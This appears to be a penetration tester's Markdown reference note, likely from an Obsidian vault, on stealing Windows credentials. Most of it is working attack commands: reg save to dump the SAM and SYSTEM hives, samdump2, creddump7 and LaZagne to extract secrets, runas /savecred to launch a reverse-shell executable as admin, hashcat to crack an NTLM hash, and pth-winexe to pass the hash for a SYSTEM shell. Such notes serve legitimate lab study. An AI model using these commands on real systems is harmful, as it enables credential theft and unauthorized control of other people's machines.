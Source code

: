 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Reg save

```command prompt - target
reg save HKLM\SAM c:\SAM
```

```command prompt - target
reg save HKLM\System c:\System
```

[[4._File Transfers]]

```bash - kali
samdump2 -o hashes System SAM
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#NTLM]]


#### Lazagne

```
lazagne.exe all
```

#### Saved creds
1. Use winPEAS to check for saved credentials:

```command prompt - windows
.\winPEASx64.exe quiet cmd windowscreds
```

2. It appears that saved credentials for the admin user exist.

3. We can verify this manually using the following command:

```command prompt - windows
cmdkey /list
```

4. If the saved credentials aren’t present, run the following script to refresh the credential:

```command prompt - windows
C:\PrivEsc\savecred.bat
```

5. We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:

![[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

#### SAM
1. Backups of the SAM and SYSTEM files can be found in ===C:\Windows\Repair== and are readable by our user.

2. Copy the files back to Kali:

[[4._File Transfers]]

3. Download the latest version of the creddump suite:

```bash - kali
git clone https://github.com/Neohapsis/creddump7.git
```

4. Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:

```bash - kali
python2 creddump7/pwdump.py SYSTEM SAM
```

5. Crack the admin user hash using hashcat:

```bash - kali
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```


#### Pass the Hash
1. Extract the admin hash from the SAM in the previous step.

2. Use the hash with pth-winexe to spawn a command prompt (empty LM hash):

```bash - kali
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:$HASH' //$TARGET cmd.exe
```

3. Use the hash with pth-winexe to spawn a SYSTEM level command prompt:

```bash - kali
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:$HASH' //$TARGET cmd.exe
```
